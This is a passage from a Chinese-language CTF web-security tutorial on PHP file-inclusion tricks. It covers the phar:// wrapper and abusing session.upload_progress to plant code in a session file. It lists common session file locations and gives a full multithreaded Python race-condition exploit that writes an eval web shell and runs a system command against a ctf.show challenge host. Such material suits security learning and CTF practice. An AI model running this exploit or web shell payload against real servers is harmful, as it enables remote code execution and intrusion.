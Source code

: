 会生成一个zip的压缩文件。然后构造

```
http://127.0.0.1/file.php?file=phar://php.zip/php.jpg
```

- 利用**session.upload_progress**

  可以利用`session.upload_progress`将恶意语句写入session文件，从而包含session文件。前提需要知道session文件的存放位置。

  如果`session.auto_start=On` ，则PHP在接收请求的时候会自动初始化Session，不再需要执行session_start()。但默认情况下，这个选项都是关闭的。

  session有一个默认选项，`session.use_strict_mode`默认值为`0`。此时用户是可以自己定义Session ID的。比如，我们在Cookie里设置`PHPSESSID=TGAO`，PHP将会在服务器上创建一个文件：`/tmp/sess_TGAO`。即使此时用户没有初始化Session，PHP也会自动初始化Session。 并产生一个键值，这个键值由`ini.get("session.upload_progress.prefix")+由我们构造的session.upload_progress.name值`组成，最后被写入sess_文件里。

  默认配置`session.upload_progress.cleanup = on`导致文件上传后，session文件内容立即清空，此时我们可以利用竞争，在session文件内容清空前进行包含利用。

  参考：https://www.freebuf.com/vuls/202819.html

  **常见PHP-Session存放位置**

  复制

  ```
  /var/lib/php5/sess_PHPSESSID
  /var/lib/php7/sess_PHPSESSID
  /var/lib/php/sess_PHPSESSID
  /tmp/sess_PHPSESSID
  /tmp/sessions/sess_PHPSESSED
  ```

  复制

  ```
  #coding=utf-8
  import io
  import requests
  import threading
  sessid = 'Q'
  data = {"cmd":"system('cat fl0g.php');"}
  url = 'http://6bad481c-1da6-4a89-92f6-db28a56e4f28.chall.ctf.show/index.php'
  def write(session):
  	while True:
  		f = io.BytesIO(b'a' * 1024 * 50)
  		resp = session.post(url, data={'PHP_SESSION_UPLOAD_PROGRESS': '<?php eval($_POST["cmd"]);?>'}, files={'file': ('q.txt',f)}, cookies={'PHPSESSID': sessid} )
  def read(session):
  	while True:
  		resp = session.post(url+'?file=/tmp/sess_'+sessid,data=data)
  		if 'q.txt' in resp.text:
  			print(resp.text)
  			event.clear()
  		else:
  			#print("[+++++++++++++]retry")
  			pass
  if __name__=="__main__":
  	event=threading.Event()
  	with requests.session() as session:
  		for i in range(1,30): 
  			threading.Thread(target=write,args=(session,)).start()
  		for i in range(1,30):
  			threading.Thread(target=read,args=(session,)).start()
  	event.set()
  ```
